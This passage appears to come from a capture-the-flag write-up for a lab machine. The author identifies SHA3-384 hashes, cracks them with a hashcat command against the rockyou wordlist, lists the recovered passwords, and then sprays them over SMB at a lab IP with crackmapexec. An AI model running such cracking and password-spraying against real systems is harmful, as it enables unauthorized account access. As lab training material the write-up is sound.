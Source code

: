 
```
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739
cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc
```

So seeing the length of the hashes it's a sha but don't know if it's 256-512 or in b/w 
after some research on HashCat wiki i confirmed that it's hash 384 but didn't know if it's 
sha2 or sha3 or what.
10800	SHA2-384
17500 SHA3-384
17900 Keccak-384

And finally this worked
```
.\hashcat.exe -m 17500 -D 2 .\hashes4.txt .\rockyou.txt -O
```

```
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
Approaching final keyspace - workload adjusted.
```

Password
```
password1
finance1
banking1
```


So let's validate the password
```
crackmapexec smb 10.10.10.179 -u new_user.txt -p password.txt 
```

